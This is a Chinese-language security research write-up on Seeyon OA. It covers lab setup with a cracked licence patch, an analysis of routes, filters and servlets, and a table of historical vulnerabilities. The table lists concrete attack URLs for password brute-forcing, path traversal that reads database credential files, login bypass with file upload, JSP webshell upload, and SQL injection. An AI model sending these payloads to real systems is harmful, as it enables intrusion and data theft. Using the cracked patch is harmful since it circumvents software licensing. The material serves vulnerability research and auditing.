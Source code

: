 # Seeyon致远OA

## 环境安装

*   （1）安装mysql数据库（针对A8版本）。创建一个新的数据库，字符集设置为UTF-8。如果是A6版本，如
    `A6v6.1、A6v6.1sp1、A6v6.1sp2`，默认使用内嵌在安装包中的`postgresql`作为数据库，无需单独安装
*   （2）获取安装文件。`Seeyonxxx.zip`（安装包）、`jwycbjnoyees.jar`（破解补丁）
*   （3）在安装包中点击要安装版本`.bat`文件，如`SeeyonA8-1Install.bat`
*   （4）按照弹出的安装程序确认安装路径、配置数据库等（安装过程需要断网，否则检测到不是最新版无法进行下一步）。如果是A6版本，到数据库配置阶段可以修改`postgres`用户的密码。另外，针对A6版本，`postgresql`安装完成后不会设置`Windows`服务项，重启机器后再次启动会比较麻烦，可使用如下命令注册一个名为`pgsql`的服务项。后续可在`Windows`服务管理里启停`postgresql`服务

```text-plain
cd C:\Seeyon\A6V6.1SP2\pgsql9.2.5\bin pg_ctl.exe register -N "pgsql" -D "C:\Seeyon\A6\A6V6.1SP2\pgsql9.2.5\data"
```

*   （5）安装最后一步是账号密码设置。A6-A8.0版本默认设置`system`账户的密码。A8.1版本可定义管理员账号、密码、普通用户初始密码、S1 Agent密码。
*   （6）安装破解补丁。如果服务已经启动，需要先关闭服务。首先备份安装目录`A6\ApacheJetspeed\webapps\seeyon\WEB-INF\lib`下的`jwycbjnoyees.jar`文件，然后将其替换成补丁文件后重启服务。补丁文件下载（此补丁针对A8.1）：https://github.com/ax1sX/SecurityList/blob/main/Java_OA/jwycbjnoyees.jar
*   （7）服务启动。A6在确保postgresql数据库服务是启动的状态下，点击“致远服务”图标来启动服务。A8是通过agent+server的形式来部署的。所以需要先启动`S1 Agent`，通过双击`Seeyon\A8\S1\start.bat`或点击`SeeyonS1Agent`图标都可以实现。然后再点击“致远服务”图标（等效于`/S1/client/clent.exe`），在其“服务启动配置”中添加Agent。![致远服务部署Agent](https://github.com/ax1sX/SecurityList/blob/main/images/%E8%87%B4%E8%BF%9C%E6%9C%8D%E5%8A%A1%E9%85%8D%E7%BD%AEAgent.png)
*   （8）默认端口是80，可以在“致远服务”的“服务启动配置”中点击Agent的配置选项，对HTTP端口和JVM属性进行更改。想要对致远进行调试，可以在修改`/ApacheJetspeed/bin/catalina_custom.bat`文件，添加如下内容。

```
set JAVA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005"
```
*   （9）访问`http://127.0.0.1:8085/seeyon/main.do`
*   （10）版本信息探测。http://ip:port/mobile_portal/api/verification/checkEnv

## 架构分析

致远源代码位置：`Seeyon\A8\ApacheJetspeed\webapps`。核心路由配置在`Seeyon\A8\ApacheJetspeed\webapps\seeyon\WEB-INF\web.xml`中，它默认加载`/WEB-INF/spring.xml`，而`spring.xml`加载的是`spring-session.xml`，目的就是让请求过程中的HttpSession由Spring来处理。


主要的过滤器
```
CTPCsrfGuardFilter:  *.do | *.jsp 
CTPPandaGuardFilter:  *.do ｜ /rest/* 
CTPSecurityFilter:  *.do | *.jsp | *.jspx | *.psml | /rest/* | /webOffice/* | /services/* | /getAjaxDataServlet | /getAJAXMessageServlet | /getAJAXOnlineServlet | /htmlofficeservlet | /isignaturehtmlH5servlet | /isignaturehtmlservlet | /login/sso | /login/ssologout | /m-signature/* | /ofdServlet | /office/cache/* | /officeservlet | /wpsAssistServlet | /pdfservlet | /sursenServlet | /verifyCodeImage.jpg
CharacterEncodingFilter:  *.do
GenericFilter:  *.do | *.jsp | /office/cache/* 
GlobalFilter:  /m-signature/*
RestFilter:  /rest/authentication/ucpcLogin/*
IsignatureFilter:  /isignaturehtmlH5servlet
LoginPageURLFilter:  /org/*
```

Servlet

```
CTPDispatcherServlet: *.do
AJAXOnlineServlet: /getAJAXOnlineServlet
AJAXMessageServlet: /getAJAXMessageServlet
ActionServlet: /m-signature/*
SSOLoginServlet: /login/sso
SSOLogoutServlet: /login/ssologout
AJAXDataServlet: /getAjaxDataServlet -> 反射调用类和方法 
OfficeServlet: /officeservlet
WpsAssistServlet: /wpsAssistServlet  -> 任意文件下载
PdfServlet: /pdfservlet              -> 已修复金格文件写入RCE
OfdServlet: /ofdServlet
HtmlOfficeServlet: /htmlofficeservlet -> 已修复金格文件写入RCE
ISignatureHtmlServlet: /isignaturehtmlservlet
KGHTML5Servlet: /isignaturehtmlH5servlet
VerifyCodeImageServlet: /verifyCodeImage.jpg
CtpAxis2Servlet: /axis2/* | /services/*
FileOutputService: /services/downloadService
URLShortenerServlet: /g/*
ConfigObtainServlet: /configObtain
ServerStatusCheckServlet: /serverStatusCheck
```

对于REST Web Service的配置，访问路径是`/rest/*`或`/webOffice/*`

```
    <servlet>
        <servlet-name>rest</servlet-name>
        <servlet-class>org.glassfish.jersey.servlet.ServletContainer</servlet-class>
        <init-param>
            <param-name>jersey.config.server.provider.packages</param-name>
            <param-value>
                com.seeyon.ctp.rest.resources,com.fasterxml.jackson.jaxrs,com.fasterxml.jackson.jaxrs.json,com.fasterxml.jackson.jaxrs.xml,com.seeyon.ctp.rest.filter
            </param-value>
        </init-param>
        <init-param>
            <param-name>jersey.config.server.provider.classnames</param-name>
            <param-value>com.seeyon.ctp.rest.filter.AuthorizationRequestFilter,com.seeyon.ctp.rest.filter.ResponseFilter,com.seeyon.ctp.rest.filter.WebOfficeLogFilter,org.glassfish.jersey.media.multipart.MultiPartFeature,com.seeyon.ctp.rest.filter.ResourceCheckRoleAccessFilter</param-value>
        </init-param>
        <init-param>
            <param-name>jersey.config.server.provider.scanning.recursive</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>4</load-on-startup>
    </servlet>
```
### xx.do
如果调试`/seeyon/individualManager.do?method=modifyIndividual`这个路由，会发现最终执行到`/seeyon/WEB-INF/lib/seeyon-apps-common.jar`包中`IndividualManagerController`类的`modifyIndividual`方法。这个jar包中都是Sesyon自定义的各种Controller。那么可以得知，访问xxController，大致是`xx.do?method=方法名`。Controller和访问路径的对应关系可以`/WEB-INF/cfgHome`文件夹下相应的Spring配置文件中查找。

### AJAXDataServlet

用户名密码爆破就是用的这个Servlet。本文用的A8.1中已经没有此漏洞，但是依旧存在这个Servlet。它的doPost方法也是调用的doGet，doGet的核心逻辑如下

```java
public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
  String serviceName = request.getParameter("S");
  String methodName = request.getParameter("M");
  String returnValueType = request.getParameter("RVT"); // 设置响应的类型，xml为"text/xml",否则为"text/html"
  try {
    if (this.ajaxService == null) {
        this.ajaxService = (AJAXService)AppContext.getBean("AJAXService");
    }
    AJAXRequest ajaxRequest = new AJAXRequestImpl(request, response, serviceName, methodName);
    AJAXResponse ajaxResponse = this.ajaxService.processRequest(ajaxRequest); // 反射调用service的method
}
```

接收类和方法，然后反射调用。查看AJAXService支持的Bean对象一共162个。都定义在`webapps/seeyon/WEB-INF/cfgHome/plugin/`各类文件夹下的`spring-xx-manager.xml`文件中。

在代码审计时需注意，即使某个方法存在漏洞，但反射中并没有传入方法参数的地方，所以需要找可利用的无参方法。

## 历史漏洞

|     漏洞名称     |                           访问路径                           | 影响版本 |
| :--------------: | :----------------------------------------------------------: | :------: |
| 用户名密码爆破 | `/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456` | A8 |
| 任意用户密码修改 | `/seeyon/individualManager.do?method=modifyIndividual` | A8 |
| htmlofficeservlet 金格文件写入RCE  | `/seeyon/htmlofficeservlet`、`/seeyon/pdfservlet` | A8 |
| fastjson反序列化 | `/seeyon/main.do?method=changeLocale`、`/seeyon/sursenServlet` | A6 |
| webmail.do任意文件下载 | `/seeyon/webmail.do?method=doDownloadAtt&filename=xx.txt&filePath=../conf/datasourceCtp.properties` | A8 |
| 登陆绕过+任意文件上传 | `/seeyon/thirdpartyController.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip` | A8 |
| 登陆绕过+任意文件上传 | `/seeyon/ajax.do;JSESSIONID=getAjaxDataServlet?method=ajaxAction&managerName=formulaManager&requestCompress=gzip&S=ajaxEdocMan ager&M=ajaxCheckNodeHasExchangeType` | A8 |
| 目录遍历 | `/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true` | A6 |
| wpsAssistServlet任意文件下载 | `/seeyon/wpsAssistServlet?flag=template&templateUrl=../../base/conf/datasourceCtp.properties` | A8 |
| wpsAssistServlet任意文件上传 | `/seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2` | A8 |
| 用户Session泄漏 | `/yyoa/ext/https/getSessionList.jsp?cmd=getAll` | A6 |
| test.jsp SQL注入 | `/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())` | A6 |
| setextno.jsp SQL注入 | `/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#` | A6 |
| 配置信息泄漏 | `/yyoa/ext/trafaxserver/SystemManage/config.jsp` | A6 |
| 数据库账户泄漏 | `/yyoa/createMysql.jsp`、`/yyoa/ext/createMysql.jsp` | A6 |

在比较新的A8（202110）版本中，对于文件上传/下载，都做了如下的限制，会判断文件是否和预设的文件夹在同一目录下，从而限制了跨目录操作
```
if (!FileUtil.inDirectory(file, directory)) {...}
```
